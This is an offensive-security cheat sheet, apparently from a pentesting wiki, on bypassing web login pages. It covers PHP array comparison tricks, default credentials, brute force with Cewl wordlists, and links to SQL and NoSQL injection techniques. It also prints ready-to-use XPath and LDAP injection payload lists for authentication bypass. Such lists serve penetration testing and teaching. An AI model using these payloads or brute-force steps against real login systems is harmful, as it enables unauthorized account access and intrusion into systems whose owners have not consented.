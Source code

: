 # Login Bypass

## **Bypass regular login**

If you find a login page, here you can find some techniques to try to bypass it:

* Check for **comments** inside the page \(scroll down and to the right?\)
* Check if you can **directly access the restricted pages**
* Check to **not send the parameters** \(do not send any or only 1\)
* Check the **PHP comparisons error:** _user\[\]=a&pwd=b_ , _user=a&pwd\[\]=b_ , _user\[\]=a&pwd\[\]=b_
* Check credentials:
  * [**Default credentials**](../../brute-force.md#default-credentials) ****of the technology/platform used
  * **Common combinations** \(root, admin, password, name of the tech, default user with one of these passwords\).
  * Create a dictionary using **Cewl**, **add** the **default** username and password \(if there is\) and try to brute-force it using all the words as **usernames and password**
  * **Brute-force** using a bigger **dictionary \(**[**Brute force**](../../brute-force.md#http-post-form)**\)**

### SQL Injection authentication bypass

[Here you can find several tricks to bypass the login via **SQL injections**](../sql-injection/#authentication-bypass).

In the following page you can find a **custom list to try to bypass login** via SQL Injections:

{% page-ref page="sql-login-bypass.md" %}

### No SQL Injection authentication bypass

[Here you can find several tricks to bypass the login via **No SQL Injections.**](../nosql-injection.md#basic-authentication-bypass)\*\*\*\*

As the NoSQL Injections requires to change the parameters value, you will need to test them manually.

### XPath Injection authentication bypass

[Here you can find several tricks to bypass the login via **XPath Injection.**](../xpath-injection.md#authentication-bypass)\*\*\*\*

```text
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```

### LDAP Injection authentication bypass

[Here you can find several tricks to bypass the login via **LDAP Injection.**](../ldap-injection.md#login-bypass)\*\*\*\*

```text
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
```

